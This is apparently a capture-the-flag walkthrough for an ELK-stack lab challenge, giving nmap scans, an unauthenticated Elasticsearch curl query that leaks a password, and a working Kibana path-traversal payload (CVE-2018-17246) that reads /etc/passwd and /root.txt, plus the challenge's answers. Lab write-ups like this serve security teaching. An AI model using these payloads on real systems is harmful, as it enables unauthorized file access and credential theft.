

## Introduction

> McDatabaseAdmin has been trying out some new storage technology and came across the ELK stack(consisting of Elastic Search, Kibana and Log Stash).  
> The Christmas Monster found this insecurely configured instance and locked McDatabaseAdmin out of it. Can McSkidy help to retrieve the lost data?  
> While this task does not have supporting material, here is a general approach on how to go about this challenge:

-	Scan the machine to look for open ports(specific to services running as well)  
-	as with any database enumeration, check if the database requires authentication. If not, enumerate the database to check the tables and records  
-	for other open ports, identify misconfigurations or public exploits based on version numbers

## Questions

> Find the password in the database

td:lr Answer: **9Qs58Ol3AXkMWLxiEyUyyf**

> Read the contents of the /root.txt file

td:lr Answer: **someELKfun**

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can do a nmap scan:

`nmap <ip> -T4` - will reveal open ports 22, 111, 8000, 9200  
`nmap <ip> -T4 -p 22,111,8000,9200 -A`

port 9200 is for elasticsearch. so we can try to enumerate elasticsearch database using `curl` command, and a particular query in mind to search for password:

`curl -XGET 'http://<ip>:9200/_search?q=password'`

And we get our answer: **9Qs58Ol3AXkMWLxiEyUyyf**

`nmap <ip> -p- -T4` - will reveal open ports 22, 111, 5601, 7223, 8000, 9200, 9300  
`nmap <ip> -p22,111,5601,7223,8000,9200,9300 -T4 -A`

You will get a long list of information from several open ports:

What we want to focus on port 5601, used by Kibana, which has a public vulnerability associated to Local File Inclusion (LFI):

[CVE-2018-17246](https://www.cvedetails.com/cve/CVE-2018-17246/)

It appears that we can do a path traversal technique to read any file within the Kibana server.  
So to test that the path traversal technique works, let's attempt to look at /etc/passwd

`<ip>:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd`

To see the results, we need to navigate to `<ip>:8000/kibana-log.txt`:

It works! we manage to see the content of `/etc/passwd`, which means we should be able to use the same technique to retrieve the content of root.txt. If it's not at the base home directory, we might need to trial and error and find the right directory. But let's try the base first:

`<ip>:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../root.txt`

Let's refresh the logs and see what we get:

Yes we got the flag! Answer: **someELKfun**

